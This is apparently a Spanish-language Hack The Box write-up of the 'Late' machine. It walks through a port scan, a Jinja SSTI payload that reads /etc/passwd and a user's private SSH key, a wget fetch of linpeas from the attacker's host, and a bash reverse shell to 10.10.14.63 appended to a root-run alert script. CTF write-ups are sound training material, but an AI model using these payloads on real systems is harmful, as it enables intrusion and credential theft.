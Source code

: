 ```yaml
---
title: 'Late'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1686607648/late_info_ulqc74.webp'
slug: 'box/late'
---
```


### Escaneo de puertos

Hacemos nuestro escaneo de puertos como es usual y verificamos cuáles están abiertos y qué servicios están corriendo en cada uno, por ejemplo en esta Máquina tenemos el puerto 80 y 22

```powershell

nmap -p- --open --min-rate 5000 -Pn 10.10.11.156 -oG puertosAbiertos'
```

Vemos que en el puerto 80 está corriendo un servidor web <i>late.htb</i> lo agregamos a nuestro archivo <i>/etc/hosts</i> de nuestra máquina

```powershell
10.10.11.156 late.htb
```

### Enumeración

Mientras hacemos un recorrido por la página notamos que en la parte de abajo tenemos unos nuevos enlaces que apuntan a <i>images.late.htb </i>,
lo añadimos a <i>/etc/hosts </i>para luego ingresar a la URL, y vemos la siguiente vista:

<img
layout="fill"
src='https://res.cloudinary.com/djc1umong/image/upload/v1686607657/fuzzing_enumeration_yydcsi.png'
alt='Enumeración de la maquina Late en Hack The Box'
/>

### Archivo hosts

En el archivo <i>/etc/hosts</i> de nuestra máquina añadimos:

```powershell
10.10.11.156 images.late.htb
```

Nos vamos a la nueva URL:

<img
layout="fill"
src="https://res.cloudinary.com/djc1umong/image/upload/v1686607671/late_1_temcpg.webp"
alt="Vista images.late.htb de la maquina Late en hack the box"
/>

Vemos en el título que esta página usa Flask, necesitamos saber como funciona este conversor de imagen a texto
creamos nuestra imagen con Photoshop, GIMP, etc. Testeamos la App para vulnerabilidades comunes como XSS, SQLi y CMDi
abrimos e ingresamos payloads para estas vulnerabilidades enganchamos que una SSTI funciona <i>&#123; &#123; 7 \* 7 &#125; &#125;</i>

Lo subimos a la web y nos retorna un archivo llamado <i>result.txt</i> con el siguiente contenido.

La palabra “Late” nos dice porque un SSTi pudo funcionar (Temp”late”). Al intentar conseguir nuestro RCE al subir una imagen con el siguiente payload por ejemplo

```powershell
text="{{ ‘’.__class__.__mro__[2].__subclasses__()[40](‘/etc/passwd’).read() }}"
```

La web lo procesa y al convertir imagen a texto algunos caracteres son añadidos y otros se pierden

```powershell
text="f{ ‘’_lsd__. _mro__.subclasses__([‘/etc/passwd’).read() }}"
```

Después de verificar esto notamos que tenemos ejecución de remota de comandos y podemos ver el archivo /etc/passwd
Notamos que hay un usuario "svc_acc" con su llave ssh privada y capacidad de login.
Volvemos a subir nuestro payload, cambiando el path al archivo id_rsa.

```powershell
text="{{ ‘’.__class__.__mro__[2].__subclasses__()[40](‘/home/svc_acc/.ssh/id_rsa’).read() }}"
```

Ahora que tenemos el id_rsa hacemos un login con el usuario svc_acc

```powershell
chmod 600 id_rsa"
ssh svc_acc@10.10.10.156 -i id_rsa"

```

### Root

Descargamos linpeas e intentamos enumerar rutas con privilegios.
Montamos nuestro servidor

```python
python3 -m http.server 8080"

```

Luego en la máquina Late

```powershell
svc_acc@late:~$ wget http://10.10.14.63:8080/linpeas.sh"

chmod +x linpeas.sh
./linpeas.sh
```

Encontramos el archivo ssh-alert.sh.

svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh

```powershell
#!/bin/bash
RECIPIENT=”root@late.htb”
SUBJECT=”Email from Server Login: SSH Alert”
BODY=”
A SSH login was detected.
User: $PAM_USER
User IP Host: $PAM_RHOST
Service: $PAM_SERVICE
TTY: $PAM_TTY
Date: `date`
Server: `uname -a`
“
if [ ${PAM_TYPE} = “open_session” ]; then
echo “Subject:${SUBJECT} ${BODY}” | /usr/sbin/sendmail ${RECIPIENT}
fi
```

Vemos que se ejecuta cada vez que entablamos una sesión
inspeccionamos los atributos que tiene aunque no tiene el de
escribir podemos crear un archivo y anexarlo.

```powershell
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
— — -a — — — — e — — /usr/local/sbin/ssh-alert.sh"
```

Creamos un archivo file.txt con el payload de Reverse Shell y lo añadimos
al archivo ssh-alert.sh

```powershell
bash -i >& /dev/tcp/10.10.14.63/9999 0>&1"
cat file.txt >> /usr/local/sbin/ssh-alert.sh
```

Configuramos un netcat en la Late y en nuestra máquina hacemos login.

```powershell
nc -lvnp 9999

cat flag.txt

```

